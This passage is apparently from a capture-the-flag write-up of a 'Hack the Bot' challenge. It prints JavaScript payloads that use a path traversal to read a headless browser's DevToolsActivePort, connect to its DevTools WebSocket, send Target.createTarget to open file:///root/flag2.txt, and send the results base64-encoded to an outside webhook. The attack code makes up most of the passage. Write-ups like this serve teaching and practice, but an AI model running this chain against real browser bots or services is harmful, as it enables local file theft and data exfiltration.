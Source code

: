 ```js
  ws = new WebSocket(wsUrl);
  let targetId = null;
  
  ws.onopen = () => {
    fetch(`${webhook}?${wsUrl}`);
  };
  
  ws.onerror = (error) => {
    fetch(`${webhook}?error=${btoa(error.toString())}`);
  };
  
  ws.onclose = () => {
    fetch(`${webhook}?weclosed`);
  };
})();
```

I then use my Script SRC payload from [Hack the Bot 1](25-pwnmequals-hackthebot1) to get the JS file, and report the link pointing to the JS payload.

We get a response on the webhook:
`/?ws://localhost:44629/devtools/browser/80e93e6f-0f0f-46ee-be2f-45e036a2afc8`

Woo!

## Commands

I start with a command `createTarget` to initialise a file URI to the flag.

```js
(async () => {
  let res = await fetch('http://localhost/logs../browser_cache/DevToolsActivePort', {
    cache: 'no-cache'
  });
  let text = await res.text();
  console.log(text);
  const lines = text.trim().split('\n');
  const port = parseInt(lines[0].trim(), 10);
  let path = lines[1].trim();
  const wsUrl = `ws://localhost:${port}${path}`;
  let ws;
  const webhook = `https://WEBHOOK/`
  
  ws = new WebSocket(wsUrl);
  let targetId = null;
  
  ws.onopen = () => {
    const createTargetCommand = {
      id: 1,
      method: 'Target.createTarget',
      params: { url: "file:///root/flag2.txt" }
    };
    ws.send(JSON.stringify(createTargetCommand));
    fetch(`${webhook}?openedWS`);
  };
  
  ws.onmessage = (event) => {
    const data = JSON.parse(event.data);
    fetch(`${webhook}?received=${btoa(event.data)}`);
    ws.close();
  };
  
  ws.onerror = (error) => {
    fetch(`${webhook}?error=${btoa(error.toString())}`);
  };
```